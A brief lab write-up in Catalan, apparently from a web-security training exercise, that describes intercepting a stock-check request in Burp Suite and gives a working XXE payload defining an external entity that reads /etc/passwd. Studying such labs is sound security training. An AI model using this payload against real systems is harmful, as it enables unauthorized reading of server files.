## LAB1

Modifiquem la peticio amb el BurpSuite i afegim a la part de XML la injecció XXE

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE hola [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```